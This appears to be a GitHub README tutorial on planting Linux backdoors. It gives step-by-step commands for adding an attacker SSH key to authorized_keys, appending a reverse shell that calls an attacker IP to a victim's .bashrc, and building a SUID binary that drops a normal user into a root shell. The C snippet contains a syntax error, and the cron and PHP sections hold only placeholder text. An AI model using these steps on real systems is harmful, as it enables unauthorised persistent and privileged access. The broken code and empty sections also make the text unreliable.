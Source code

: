# backdoors

1.ssh\
2.bashrc\
3.suid\
4.cron\
5.php

# //------------------------------------
# 1. SSH Key Access
SSH keys provide extreme convenience for system administrators, however, they also provide convenient backdoors for attackers. Start on your host by generating an SSH key with the command:
\
ssh-keygen\
\
![image](https://raw.githubusercontent.com/DDNvR/backdoors/main/images/sshkeygen.png)
\
This should generate two files an id_rsa.pub which is your public key, and id_rsa which is your private key.\
\
Now that the keys are generated switch back over to the target box and cd to your user's respective home directory (cd ~). As you can see in the image below there was no .ssh directory or authorized_keys file. This is no issue as you can create them with the commands:\
\
mkdir .ssh\
touch authorized_keys

![image](https://github.com/DDNvR/backdoors/blob/main/images/authorizedkeys.png)

\
With that taken care of, back on your attacker box, cat you id_rsa.pub (the public key and copy the entire output.

![image](https://github.com/DDNvR/backdoors/blob/main/images/keyshow.png)

\
All that is left to do is to echo the output of your id_rsa.pub into the authorized_keys file on the target box. I always like to double-check key was formatted properly by taking a look at the authorized_keys file. Alternatively to echoing the contents of your public key to the authorized_keys file, if you have ssh access to the target box you can utilize the text editor of your choice and copy + paste the contents.

![image](https://github.com/DDNvR/backdoors/blob/main/images/addkey.png)

\
Now to utilize the backdoor all you have to do is ssh to the target box and no matter what they change their password to you will always have key access to the host.\
\
Note: make sure to use -i [private key file] in your ssh command to specify you want to make use of key authentication.

# //------------------------------------
# Bashrc Backdoor
The .bashrc file, located in every user's home directory is rarely checked by the average user, making this one of my favorite spots to stick a backdoor.\
\
Ensure you are in your user’s home directory by issuing the command:\
\
cd ~\
\
Now that you are in their home directory simply echo the following and direct the output to append(not overwrite the .bashrc file):\
\
echo ‘bash -i >& /dev/tcp/[attack box ip address]/[port] 0>&1’ >> ~/.bashrc\
\
Confirm the aforementioned command completed successfully my examining the end of the .bashrc file with:\
\
tail ~/.bashrc\
\
With that established, all that is left to do is set up a listener. Now every time that user logs in to the box it will call out to your attack box on the specified port number! To simulate this in a lab environment simply exit the ssh session and re-login with the key persistence we set up earlier. This login will trigger the reverse shell to call out.

![image](https://github.com/DDNvR/backdoors/blob/main/images/bashrc.png)

# //------------------------------------
# SUID Backdoor
SUID binaries are a popular method to privilege escalate on a Linux system. For our final backdoor method, we are going to create our own that drops us into a root shell from a normal user. This method combined with a web shell can be a devastating combo, as you can go from a web shell to the root user in a matter of minutes.\
\
Note: This can be compiled on the target box provided it has gcc installed. In the case it does not (like in my example) I simply compiled it on my attack box and transferred the final product over to the target.\
\
Start by creating a C file with the following command\
\
echo ‘int main() { setresuid(0,0,0,); system(“/bin/sh”); }’ > privshell.c\
\
Compile this new C file to a system binary with:\
\
gcc -o privshell privshell.c\
\
Remove the original C file as seen in the image, and change the ownership of the file (if you created it as the root user it will already be owned by root, however it does not hurt to double-check).\
\
chown root:root privshell\
\
Add the SUID permissions to the file with:\
\
chmod u+s privshell\
\
Finally copy the file to a spot a normal user can access like /tmp or /var/tmp, and switch to a normal user.\

![image](https://github.com/DDNvR/backdoors/blob/main/images/suidbackdoor.png)

\
All that is left to do is execute the new malicious SUID binary and gain root privileges without ever authenticating with a password!\

![image](https://github.com/DDNvR/backdoors/blob/main/images/suidbackdoor2.png)

\
We covered a lot of ground today, thus I recommend finding two Linux virtual machines to practice these on. In the process of making this guide, I stumbled upon a lot of excellent resources if you would like to read further into the subject, happy hacking.

# //------------------------------------
# Cron Backdoor

asdfasdf\

# //------------------------------------
# PHP Backdoor

asdfasdf\

# //------------------------------------
